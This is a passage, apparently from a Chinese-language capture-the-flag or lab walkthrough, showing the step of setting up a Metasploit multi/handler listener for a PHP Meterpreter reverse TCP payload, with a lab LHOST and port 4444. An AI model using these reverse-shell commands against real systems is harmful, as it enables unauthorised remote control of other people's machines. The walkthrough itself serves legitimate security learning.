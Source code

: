 ## **步骤 4 -** 使用 Metasploit 设置监听器

回到 Metasploit，我使用下面的命令来设置有效负载处理程序

```
use exploit/multi/handler
```

我首先设置了有效载荷

```
set payload php/meterpreter/reverse_tcp
```

然后是 LHOST

```
set lhost 10.10.14.36
```

最后是 LPORT

```
set lport 4444
```

如果我们现在检查选项，我们应该看到一切都设置好了

![Screenshot-2020-05-17-at-22.18.28](img/830cc9c199390895d6c756413c86174e.png)
